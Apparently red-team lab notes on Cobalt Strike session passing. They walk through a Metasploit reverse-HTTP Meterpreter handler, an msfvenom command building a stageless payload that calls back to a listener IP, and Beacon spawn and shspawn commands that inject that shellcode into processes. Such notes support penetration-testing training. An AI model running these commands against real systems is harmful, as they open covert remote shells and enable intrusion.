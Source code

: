 # Session Passing

Session passing spawns a new C2 session from one payload/listener type to another e.g., a long-haul DNS beacon can spawn a short-haul HTTP beacon. Can also pass sessions between different C2 frameworks, such as spawning a Meterpreter session from a CS beacon. Good to:

* Use a capability within a framework that Cobalt Strike doesn't have
* Backup access in the event the current access is lost
* Emulate specific TTPs

## Beacon Passing

```spawn x64 http``` spawns a process and injects shellcode for the specified listener into it. For example, a DNS Beacon checking in from bfarmer every 1 minute left open as a lifeline on a slow check-in and a new HTTP session that checks in more frequently can be spawned and work done from there instead.

## Foreign Listener

Stages Meterpreter HTTP/HTTPS implants from Beacon or any implant that supports the MSF staging protocol. Only supports x86 staged payloads. Start msfconsole and create a new reverse HTTP Meterpreter listener:

    attacker@ubuntu ~> sudo msfconsole -q
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
    msf6 exploit(multi/handler) > set LHOST ens5
    msf6 exploit(multi/handler) > set LPORT 8080    /// Don't use a port CS is listening on
    msf6 exploit(multi/handler) > run

CS: Listener Management > create a new Foreign HTTP listener.  Enter the stager host and port from the MSF handler. The listener is available within all the relevant Beacon commands such as spawn, jump, and elevate (e.g. ```spawn msf``` will spawn a process and inject Meterpreter shellcode into it, giving a Meterpreter session).

## Spawn & Inject

```shinject <arch> <payload>``` (existing proc) and ```shspawn <arch> <payload>``` (new proc) allow injection of arbitrary shellcode blobs. 

1: Change the multi handler to use a stageless x64 Meterpreter payload:

    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
    msf6 exploit(multi/handler) > exploit

2: Generate the associated payload using msfvenom inside WSL, and save the output to Payloads directory:

    ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin

3: spawn a process and inject it:

    beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
